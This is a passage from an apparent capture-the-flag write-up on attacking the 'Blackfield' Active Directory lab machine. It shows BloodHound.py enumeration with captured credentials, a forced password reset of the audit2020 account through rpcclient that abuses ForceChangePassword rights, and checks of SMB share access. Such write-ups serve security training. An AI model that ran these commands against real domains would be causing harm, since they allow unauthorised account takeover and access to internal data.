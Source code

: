 ## Enumerating Active Directory

As this is an **Active Directory Domain Controller**, it is always recommended to gather information with **BloodHound**.
We do not have a shell on the box yet, but can use the Python based ingestor [BloodHound.py](https://github.com/fox-it/BloodHound.py) with the found credentials:
```
python3 bloodhound.py -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all
```

The created JSON files can be ingested into BloodHound to analyze the domain objects.
When checking the shortest path to the user _audit2020_, it shows that the user _support_ has the _ForceChangePassword_ permission:

![Path to audit2020](blackfield_bh-1.png)

Changing the password of _audit2020_ with **rpcclient**:
```
rpcclient -U support 10.10.10.192

rpcclient $> setuserinfo2 audit2020 23 'NewPass1'
```

If there is no error message from **rpcclient** it worked, but it can be tested by enumerating the SMB shares to see if there is a different result:
```
smbmap -H 10.10.10.192 -u 'audit2020' -p 'NewPass1'
```
```
Disk         Permissions     Comment
----         -----------     -------
ADMIN$       NO ACCESS       Remote Admin
C$           NO ACCESS       Default share
forensic     READ ONLY       Forensic / Audit share.
IPC$         READ ONLY       Remote IPC
NETLOGON     READ ONLY       Logon server share
profiles$    READ ONLY
SYSVOL       READ ONLY       Logon server share
```
